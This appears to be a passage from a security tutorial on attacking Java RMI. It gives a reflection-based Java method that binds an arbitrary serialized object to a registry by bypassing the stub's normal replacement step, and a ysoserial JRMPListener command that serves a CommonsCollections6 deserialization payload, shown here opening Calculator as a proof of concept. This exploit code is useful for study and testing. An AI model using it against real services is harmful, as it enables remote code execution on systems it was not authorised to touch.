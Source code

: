 ```java
    static void bindReflection(String name, Object obj, Registry registry) throws Exception {

        Field ref_filed = RemoteObject.class.getDeclaredField("ref");
        ref_filed.setAccessible(true);
        UnicastRef ref = (UnicastRef) ref_filed.get(registry);

        Field operations_filed = RegistryImpl_Stub.class.getDeclaredField("operations");
        operations_filed.setAccessible(true);
        Operation[] operations = (Operation[]) operations_filed.get(registry);

        RemoteCall remoteCall = ref.newCall((RemoteObject) registry, operations, 0, 4905912898345647071L);
        ObjectOutput outputStream = remoteCall.getOutputStream();

        Field enableReplace_filed = ObjectOutputStream.class.getDeclaredField("enableReplace");
        enableReplace_filed.setAccessible(true);
        enableReplace_filed.setBoolean(outputStream, false);

        outputStream.writeObject(name);
        outputStream.writeObject(obj);

        ref.invoke(remoteCall);
        ref.done(remoteCall);
    }
}
```

 - ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```

![](./images/56.png)
